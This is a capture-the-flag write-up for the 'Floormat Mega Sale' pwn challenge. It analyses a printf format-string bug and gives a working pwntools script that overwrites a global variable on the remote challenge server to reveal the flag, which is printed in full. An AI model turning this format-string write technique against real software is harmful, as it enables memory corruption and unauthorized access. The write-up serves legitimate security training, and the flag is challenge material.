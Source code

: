 https://ctftime.org/event/2446

# Floormat Mega Sale (pwn)

The Floor Mat Store is running a mega sale, check it out!

nc floormatsale.ctf.intigriti.io 1339

## Analysis

`main` @ `0x00401265`
- Uses `scanf("%d)` to read out mat selection
    - If this is 6 we call `employee_access`
- Calls `printf(attacker_controlled_input)`
    - Note that the format string can be found on the stack at `"%10$p"`

`employee_access` @ `0x004011c6`
- Checks if `employee` @ `0x0040408c` is non-zero
    - If it is this code prints the flag

## Solution

1) Select `6. Exclusive Employee-only Mat`
2) Use the attack controlled `printf` to modify `employee` to be non-zero
3) Read the flag during `employee_access`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./floormat_sale", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("floormatsale.ctf.intigriti.io", 1339)

p.sendlineafter(b"your choice:\r\n", str(6).encode())

payload = fmtstr_payload(10, {elf.sym["employee"]: 1 & 0xff})
p.sendlineafter(b"shipping address:\r\n", payload)

p.readuntil(b"delivered to: ")
print(p.readline()[:-2].decode()) # INTIGRITI{3v3ry_fl00rm47_mu57_60!!}
```

## Flag
`INTIGRITI{3v3ry_fl00rm47_mu57_60!!}`

smiley 2024/11/16

